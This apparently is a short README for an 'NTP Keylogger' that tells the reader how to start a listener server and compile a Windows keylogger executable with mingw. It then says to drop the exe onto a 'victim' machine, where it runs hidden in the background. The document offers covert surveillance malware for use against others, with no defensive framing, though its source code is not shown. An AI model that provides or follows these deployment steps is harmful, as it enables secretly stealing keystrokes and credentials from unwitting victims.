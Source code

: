 # NTP Keylogger   
## Listener
```
sudo python3 ntpserver.py
```

## Victim
Change the IP to your desired target server IP adress 
```
x86_64-w64-mingw32-gcc jlogger.c -o jlogger.exe -lwsock32 -w
```
Then throw the exe on the victim machine and just double click on it(Executable will work on background, so you cannot see anything in the screen)

This is how exe works:


![image](https://user-images.githubusercontent.com/45479002/209933030-92b10432-1884-40a9-9e4d-70584b4d3d91.png)

![jlogger](https://user-images.githubusercontent.com/45479002/209933048-ab41d906-ce19-4ecc-b0ce-1a270578874b.png)
